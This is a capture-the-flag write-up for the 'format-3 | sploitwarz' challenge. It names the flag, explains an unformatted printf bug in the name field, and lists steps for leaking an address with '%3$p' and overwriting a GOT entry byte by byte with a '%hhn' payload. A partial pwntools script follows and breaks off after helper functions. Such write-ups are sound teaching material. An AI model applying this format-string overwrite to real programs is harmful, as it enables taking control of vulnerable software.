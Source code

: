 ==============================
==============================

format-3 | sploitwarz
===========================

Flag: `6447{4ee67e05-ec23-4d7a-9b12-b17a3b251656}`

General overview of problems faced
-------------------------------------
Wrote a function to dynamically calculate the offset because aslr moves the win function address around

List of vulnerabilities
--------------------
1. The name buffer is used in a `printf` without formating after doing a successfull gamble

Steps to exploit the format string
------------------
1. Set your name to "%3$p"
2. Gamble and win. The odd one out is the non-fibonnaci number
3. Save the printed address and add 14172 to find the printf address in the got table. Remove -2883 to find the win function address
4. Set your name to : printf_address + (printf_address + 1) + (printf_address + 2) + (printf_address + 3) + '%{p1}c%9$hhn%{p2}c%10$hhn%{p3}c%11$hhn%{p4}c%12$hhn' where p1, p2, p3, p4 represent each byte of the win function address
5. Gamble and win.

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *


def get_fib_sequence():
    prev = 0
    curr = 1
    ret = [prev, curr]

    for i in range(1, 25):
        temp = curr
        curr = prev+curr
        prev = temp
        ret += [curr]
    return ret


def get_wrong(l):
    fibs = get_fib_sequence()
    for i, dig in enumerate(l):
        if int(dig) not in fibs:
            return i
    return 0


def do_change_name(r, new_name):
    r.sendline('c')
    r.sendline(new_name)


def do_gamble(r):
    r.sendline('g')
    r.sendline('0.0000000001')
```